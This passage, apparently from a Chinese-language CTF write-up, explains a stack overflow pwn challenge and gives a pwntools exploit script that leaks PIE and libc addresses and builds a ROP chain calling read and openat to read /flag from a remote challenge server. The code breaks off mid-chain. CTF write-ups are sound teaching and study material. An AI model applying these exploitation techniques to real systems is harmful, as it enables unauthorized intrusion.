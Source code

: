 <img src="/assets/ycb2025/randtbl.png" width="90%">

那么已知libc以后，根据沙箱限制，只要做 `openat(AT_FDCWD, "/flag", 0, 0)` 和
`sendfile(1, 3, NULL, 0x50)` 就可以把flag打印出来了。

{% note red fa-shield-halved %}
这道题的环境怪得很，必须要国内网络才能访问，否则无法发送任何内容过去，
其他题都没有这个问题
{% endnote %}

## EXPLOIT

```python
from pwn import *
from pwnlib.rop import gadgets
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './Stack_Over_Flow'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 23522)
    elf = ELF(EXE)
    libc = elf.libc

    # stage 2 hack 1
    t.sendafter(b'Good luck', b'\0' * 0x108 + p8(0x5f)) # keep stack aligned

    t.recvuntil(b'magic number:')
    number = int(t.recvline())
    main = number // 3
    if main & 0xff != 0xb0:
        main = number // 4

    pie_base = main - 0x16b0
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base

    # stage 2 hack 2
    second = pie_base + 0x161f
    t.sendafter(b'Good luck', flat(b'\0' * 0x108, elf.plt['rand'], elf.plt['puts'], second))
    libc_base = (u64(t.recvuntil(b'\nWelcome', True)[-6:] + b'\0\0') & ~0xff) - 0x21a200 # randtbl
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # back to second
    gadgets = ROP(libc)
    chain = flat([
        gadgets.rdi.address, 0,
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0x20, 0, # pop rdx; pop rbx
        libc.symbols['read'],
    ], [
        gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0,
        libc.symbols['openat'],
```